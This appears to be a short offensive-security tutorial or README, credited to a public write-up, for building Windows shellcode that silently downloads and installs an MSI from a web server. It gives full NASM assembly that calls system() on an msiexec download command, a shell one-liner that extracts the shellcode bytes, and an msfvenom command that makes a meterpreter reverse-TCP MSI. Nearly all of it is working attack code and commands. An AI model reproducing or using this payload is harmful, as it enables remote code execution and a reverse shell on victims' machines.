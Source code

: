 

https://web.archive.org/web/20120503030935/http://projectshellcode.com/?q=node/12

1. I followed above first two tutorials (1. Intro tools & setup 2. My first shellcode.) to output shellcode, alternatively follow shellcode developer's write-
up....I'm sure it works!

Shellcode Developer: Kartik Durg

https://iamroot.blog/2019/01/28/windows-shellcode-download-and-execute-payload-using-msiexec/

2. The following asm does this: #

3. msiexec /i http://172.16.0.14/jasonm.msi /qn

4. Need to Determine LoadLibrary, ExitProcess & System via Arwin

```
------------assembly starts---------------

BITS 32
global _start
_start:
			
mov ebx, 0x777fde35      		;Address of function LoadLibraryA (win7)
call ebx
mov ebp, eax             		;msvcrt.dll is saved in ebp
xor eax, eax
PUSH eax
PUSH 0x6e712f20
PUSH 0x69736d2e
PUSH 0x6d6e6f73
PUSH 0x616a2f34
PUSH 0x312e302e
PUSH 0x36312e32
PUSH 0x37312f2f
PUSH 0x3a707474
PUSH 0x6820692f
PUSH 0x20636578
PUSH 0x6569736d
MOV EDI,ESP
PUSH EDI
MOV EAX, 0x768db177			;calling the system()
CALL EAX
xor eax, eax
push eax
mov eax, 0x7780be5a     		; ExitProcess
call eax

--------------assembly end----------------------------------
```
5. Save as msi.asm

6. Using Cygwin

7.xvz@xvz-PC ~
$ nasm -f win32 msi.asm -o msi.bin

8.Get rid of null bytes

9.xvz@xvz-PC ~
$ for i in $(objdump -D msi.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo

10.Add to script

11.Create MSI
msfvenom -p windows/meterpreter/reverse_tcp LPORT=4444 LHOST=172.16.0.14 -f msi -o jasonm.msi

Start web-server port 80
